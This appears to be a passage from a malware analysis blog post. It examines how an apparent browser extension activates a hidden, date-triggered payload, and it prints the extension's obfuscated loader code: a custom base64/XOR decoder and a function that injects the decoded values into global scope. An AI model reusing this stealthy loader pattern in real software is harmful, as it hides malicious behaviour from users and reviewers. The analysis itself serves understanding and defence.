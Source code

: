 ```
no-cache,NTM2MTEzeChZb1koQTBfFX5pWRY4FFNLexxTNhogb0dlOlFFHHxoLQ1uVFlYBDJ7CHIKZ1pdWlR-eV4xVTNkIUJBMCM6K1UqFUpEEX13bVt6WRFfVjxwSD8KbjUuGx03NSFhGmBhZiExVEUUQFFbOXBUZV13LC1X
```

So why did I try modifying the date? Was it a stroke of luck? Why, no. You see, this approach of relying on the date to trigger certain behavior isn’t some newfangled strategy, but rather something that dates back to the MS DOS days. A very well known DOS virus is called [Jerusalem](https://en.wikipedia.org/wiki/Jerusalem_(computer_virus)), which infected every executable file on the system on every Friday the 13th except in 1987. 

After some testing, I pinpointed that if your installation date is greater than a day from today, then the `cache-control` field will contain the extra encoded string we see above. Just looking at it, the encoded string does not really mean anything, but maybe reading the code will give us some hints.

My first instinct was to look at any part of the code that used the `cache-control` key anywhere. The first snippet I found is in this function:

```js
getMediaPath: function() {
    var a = window.localStorage;
    console.trace('getMediaPath', a);
    if (a["cache-control"]) {
        var b = a["cache-control"].split(",");
        try {
            var c;
            for (var d in b) {
                var e = b[d].trim();
                if (!(e.length < 10)) try {
                    if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
                        for (var f in c) window[f] = c[f];
                        A = !0;
                        break
                    }
                } catch (g) {}
            }
        } catch (g) {}
        this.setMediaPath()
    }
},
```

If the `cache-control` key exists inside local storage, then the `getMediaPath` function would split the value in `cache-control`, split it, and then call `strvstrevsstr` on the string value that is greater than length 10. We know that the split will always have 2 elements and `strvstrevsstr` will be used to decode the encoded string to a JSON object. To test, I grabbed the definition for `strvstrevsstr` and ran it in the inspector tool’s console.

```js
String.prototype.strvstrevsstr = function() {
    var a = this;
    this.length % 4 != 0 && (a += "===".slice(0, 4 - this.length % 4)), a = atob(a.replace(/\-/g, "+").replace(/_/g, "/"));
    var b = parseInt(a[0] + a[1], 16),
        c = parseInt(a[2], 16);
    a = a.substr(3);
    var d = parseInt(a);
    if (a = a.substr(("" + d).length + 1), d != a.length) return null;
    for (var e = [String.fromCharCode], f = 0; f < a.length; f++) e.push(a.charCodeAt(f));
    for (var g = [], h = b, i = 0; i < e.length - 1; i++) {
        var j = e[i + 1] ^ h;
        i > c && (j ^= e[i - c + 1]), h = e[i + 1] ^ b, g.push(e[0](j))
    }
    return g.join("");
}
```